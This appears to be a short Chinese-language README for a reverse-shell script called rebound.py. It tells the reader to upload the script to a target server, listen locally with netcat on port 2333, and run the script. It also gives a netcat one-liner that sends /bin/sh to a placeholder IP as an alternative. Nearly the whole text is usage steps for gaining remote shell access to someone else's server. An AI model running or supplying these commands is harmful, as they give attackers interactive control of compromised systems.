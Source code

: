 # 使用说明

修改脚本中的server ip为本地host IP， 端口为监听端口

将反弹脚本上传到目标服务器上，在本地执行：

```
nc  -l 2333
```

服务器执行

```
python rebound.py
```

其实没有这个脚本也是可以的，可以在目标服务器执行

```
nc -e /bin/sh x.x.x.x 2333
```